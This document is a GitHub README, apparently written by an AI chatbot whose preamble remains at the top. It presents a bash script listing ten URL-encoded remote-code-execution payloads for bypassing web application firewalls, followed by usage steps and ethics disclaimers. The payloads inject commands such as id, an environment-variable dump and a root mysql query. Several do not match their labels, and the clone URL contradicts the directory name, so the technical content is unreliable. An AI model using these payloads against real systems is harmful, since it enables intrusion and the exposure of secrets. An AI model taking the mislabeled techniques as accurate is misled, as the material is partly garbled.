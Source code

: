 Sure! Here's a comprehensive and well-structured README for your GitHub repository that includes the Bash script for RCE payloads and provides context, usage instructions, and important notes.

```markdown
# RCE Payloads for WAF Bypass

This repository contains a Bash script with example payloads designed to demonstrate various techniques for bypassing Web Application Firewalls (WAFs) in the context of Remote Code Execution (RCE) vulnerabilities. The provided payloads are for educational and research purposes only.

## Overview

Web Application Firewalls (WAFs) are commonly used to protect web applications from various types of attacks, including Remote Code Execution (RCE). However, attackers often attempt to bypass these protections using various techniques. This repository provides a Bash script with a collection of example payloads that might be employed to bypass WAFs.

## Script

The `rce_payloads.sh` script contains ten example payloads. Each payload demonstrates a different technique for attempting to exploit RCE vulnerabilities while trying to avoid detection by WAFs.

### Example Payloads

1. **Basic Command Injection with URL Encoding**
2. **Double URL Encoding**
3. **Base64 Encoding**
4. **Unix Time-Based Payload**
5. **Nested Encodings**
6. **Using Environment Variables**
7. **Bypassing WAF with Delimiters**
8. **Payload with SQL Injection**
9. **Using PHP Wrappers**
10. **Bypassing WAF with Newline Characters**

### Script Content

The script is designed to output various payloads that can be used in testing. Each payload is constructed to demonstrate different evasion techniques.

```bash
#!/bin/bash

# Example payloads for RCE with WAF bypass techniques

# 1. Basic Command Injection with URL Encoding
payload1="http://example.com/vulnerable?param=cmd%3D%28%27id%27%29"
echo "Payload 1: $payload1"

# 2. Double URL Encoding
payload2="http://example.com/vulnerable?param=cmd%253D%2528%2527id%2527%2529"
echo "Payload 2: $payload2"

# 3. Base64 Encoding
payload3="http://example.com/vulnerable?param=cmd%3D%28%27echo%20%24%28echo%20c3NoIGNoYW5nZQ%29%27%29"
echo "Payload 3: $payload3"

# 4. Unix Time-Based Payload
payload4="http://example.com/vulnerable?param=cmd%3D%28%27date%20%26%26%20id%27%29"
echo "Payload 4: $payload4"

# 5. Nested Encodings
payload5="http://example.com/vulnerable?param=cmd%253D%2528%2527echo%2520%2524%2528echo%2520c3NoIGNoYW5nZQ%2529%2527%2529"
echo "Payload 5: $payload5"

# 6. Using Environment Variables
payload6="http://example.com/vulnerable?param=cmd%3D%28%27%24%28env%29%27%29"
echo "Payload 6: $payload6"

# 7. Bypassing WAF with Delimiters
payload7="http://example.com/vulnerable?param=cmd%3D%28%27%24%28command%20%24%28echo%20%24%28echo%20id%29%29%29%27%29"
echo "Payload 7: $payload7"

# 8. Payload with SQL Injection
payload8="http://example.com/vulnerable?param=cmd%3D%28%27%24%28mysql%20-U%20root%20-e%20%27SELECT%20user()%27%29%27%29"
echo "Payload 8: $payload8"

# 9. Using PHP Wrappers
payload9="http://example.com/vulnerable?param=cmd%3D%28%27php%20%27%29%27"
echo "Payload 9: $payload9"

# 10. Bypassing WAF with Newline Characters
payload10="http://example.com/vulnerable?param=cmd%3D%28%27%24%28echo%20%22id%22%29%27%29"
echo "Payload 10: $payload10"

# End of Payloads
echo "Payloads listed above can be used for testing purposes. Ensure proper authorization before testing."
```

## Usage

1. **Clone the repository**:

   ```bash
   git clone [https://github.com/soheil-vanaee/rce-waf-bypass.git](https://github.com/soheil-vanaee/rce-payload-bypassing-WAF-.git)
   cd rce-waf-bypass
   ```

2. **Make the script executable**:

   ```bash
   chmod +x rce_payloads.sh
   ```

3. **Run the script**:

   ```bash
   ./rce_payloads.sh
   ```

   This will print out the payloads to the terminal.

## Important Notes

- **Authorization**: Ensure that you have explicit permission before testing any payloads on systems. Unauthorized testing is illegal and unethical.
- **Adjustments**: Payloads may need modification based on the specific WAF and application you are targeting.
- **Ethical Use**: Use these techniques responsibly and only in controlled, authorized environments.

